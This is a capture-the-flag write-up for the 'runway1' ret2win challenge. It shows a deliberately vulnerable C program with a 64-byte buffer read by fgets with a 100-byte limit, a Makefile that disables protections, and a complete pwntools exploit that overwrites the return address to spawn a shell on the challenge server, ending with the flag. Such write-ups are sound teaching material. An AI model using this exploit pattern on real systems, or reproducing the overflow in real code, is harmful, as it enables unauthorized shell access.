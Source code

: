 # runway1

The following `runway1.c` file was provided:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win() {
    printf("You win! Here is your shell:\n");

    system("/bin/sh");
}

int get_favorite_food() {
    char food[64];

    printf("What is your favorite food?\n");
    fflush(stdout);

    fgets(food, 100, stdin);

    printf("Hmmm..... %s...", food);
}

int main() {
    int rand_num;

    srand(time(0));
    rand_num = rand() % 100;

    get_favorite_food();

    if (rand_num <= 50) {
        printf("That sounds delicious!\n");
    } else if (rand_num <= 70) {
        printf("Eh, that sounds okay.\n");
    } else if (rand_num <= 80) {
        printf("That's my favorite food too!\n");
    } else if (rand_num <= 90) {
        printf("I've never tried that before!\n");
    } else if (rand_num <= 100) {
        printf("Ew! I would never eat that.\n");
    }

    return 0;
}
```

The issue here lies with the `fgets` call in `get_favorite_food()`. It allows 100 bytes of input when `food` is only 64 bytes. 
This is a basic example of a `ret2win` pwn challenge. Since the return address of the function is stored onthe stack, it can be
overwritten to point to some other function. To be able to do this, we need to make sure that there is no canry enabled, which would
halt the program. Luckily, the povided `Makefile` has the following:
```makefile
all: runway1.c
        gcc runway1.c -o runway1 -fno-stack-protector -no-pie -m32
```

This is extremely convenient. Not only is the canary disabled with `-fno-stack-protector`, but `-no-pie` is enabled, which means that the address 
of functions will be the same across runs, meaning that we don't need to do any tricks like leaking libc.
The `-m32` option just means that this is compiled as a 32-bit executable, which for this challenge is not so important but it does mean that each 
address is 4 bytes.

The first step to build our exploit is to find the offset to the return address within `get_favorite_food()`. Many people use `pwntools`' `cyclic` feature
to handle this, but I think it's easier to just use [this website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) with `pwndbg` for `gdb`.

There's no need to set a breakpoint for this, I just ran the program, entered the cyclic string from that website, and `pwndbg` returned

> Invalid address 0x63413563

Pasting that address into the website from before, I got the offset `76`.

From here, the exploit is rather straightforward:
```python
import pwn

pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.binary = elf = pwn.ELF("./runway1")

if pwn.args.REMOTE:
    io = pwn.remote("challs.pwnoh.io", 13401)
else:
    io = pwn.process("./runway1")


win = elf.symbols['win']

io.recvuntil(b'food?\n')
payload = b'A' * 76 + win.to_bytes(4, "little")

io.sendline(payload)
io.interactive()
```


And running it, we get this:
```
# python3 sender.py REMOTE SILENT
$ ls
flag.txt
run
$ cat flag.txt
bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}
```

